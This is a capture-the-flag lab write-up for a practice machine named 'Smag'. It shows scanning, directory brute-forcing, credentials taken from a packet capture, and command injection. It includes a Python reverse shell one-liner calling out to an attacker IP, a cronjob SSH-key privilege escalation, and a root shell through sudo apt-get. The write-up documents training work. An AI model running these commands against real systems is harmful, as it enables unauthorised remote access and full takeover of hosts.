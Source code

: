 ### Nmap

```
─[✗]─[glack@parrot]─[~/Desktop/THM/easy_peasy]
└──╼ $nmap -sV -sT -A 10.10.185.249
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-28 16:39 IST
Nmap scan report for 10.10.185.249
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74e0e1b405856a15687e16daf2c76bee (RSA)
|   256 bd4362b9a1865136f8c7dff90f638fa3 (ECDSA)
|_  256 f9e7da078f10af970b3287c932d71b76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### HTTP

1. Ran a ffuf directory brute force
```
─[glack@parrot]─[~/Desktop/THM/easy_peasy]
└──╼ $ffuf -w /usr/share/wordlists/small.txt:FUZZ -u http://10.10.185.249/FUZZ -e php,html -t 50
```

```
http://10.10.185.249/mail/
```
2. Downloaded the .pcap file and found a set of creds and URL in it
```
username=helpdesk&password=cH4nG3M3_n0w

POST /login.php HTTP/1.1

Host: development.smag.thm

```

3. Added the following entry in `/etc/hosts` file
```
10.10.185.249 development.smag.thm
```

logged into the 

```
http://development.smag.thm/login.php

```

We were prompted the enter a command, but was not getting any response in return, so to confirm if my commands were getting execute i used [[How to check if ping on target system is running by pinging urself]]


### Foothold

And i got the the ping commands on tcp dump

1. used this to start a reverse tcp connect using this as command in burpsuite(baash nad php didnt work for me dont know why)
I also used the option - `Change body encoding` in burpsuite

Note: don't encode the python code
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.17.24.189",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

### Priv Esc
1. one working cronjob
```
/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

```
-rw-rw-rw- 1 root root  563 Jun  5  2020 jake_id_rsa.pub.backup
```


2. Created and SSH key pair- 
```
─[✗]─[glack@parrot]─[~/Desktop/THM/smart_grotto]
└──╼ $ssh-keygen 
```

viewed and copied the public key

```
┌─[glack@parrot]─[~/Desktop/THM/smart_grotto]
└──╼ $cat id_rsa.pub
```

Since we are able to write the jake_id_rsa.pub.backup file, i appended my key to the file

```
www-data@smag:/opt/.backups$ echo "<key>....... glack@parrot" >> jake_id_rsa.pub.backup
```

3. Waited for one min, for the cronjob to run

4. then used the other private key to login as jake 
```
─[glack@parrot]─[~/Desktop/THM/smart_grotto]
└──╼ $ssh -i id_rsa jake@10.10.163.243
```

```
jake@smag:~$ cat user.txt
iusGorV7EbmxM5AuIe2w499msaSuqU3j

```

### Root

1. with nothing much to go on, i used the lineas.sh for automated enumeration
Usefull stuff I found

```
╔══════════╣ PATH
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-path-abuses
/home/jake/bin:/home/jake/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games

```

Missed this during manual enumm i didnt try it as i had not password and i though this command always promted the use for a password

```
User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

got root shell with the help of GTFO bins using

```
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
# 

```

```
# cat root.txt
uJr6zRgetaniyHVRqqL58uRasybBKz2T

```